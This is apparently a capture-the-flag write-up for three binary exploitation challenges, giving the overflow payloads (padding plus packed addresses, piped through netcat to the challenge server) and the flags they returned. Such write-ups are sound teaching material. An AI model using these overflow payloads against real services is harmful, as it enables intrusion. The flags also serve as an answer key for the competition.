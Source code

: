 # Binary Exploitation

## Overflow1
```
1. nc cyberyoddha.baycyber.net 10001
2. AAAAAAAAAAAAAAAAA

CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```

## Overflow2
```
payload : 
(python -c "print 'a'*28 + '\x72\x91\x04\x08'";cat) | nc cyberyoddha.baycyber.net 10002

CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}
```

## Overflow3
```
payload :

(python -c "print ('a'*16 + '\x3f\xb3\xad\xd3')";cat) | nc cyberyoddha.baycyber.net 10003

CYCTF{wh0@_y0u_jump3d_t0_th3_funct!0n}
```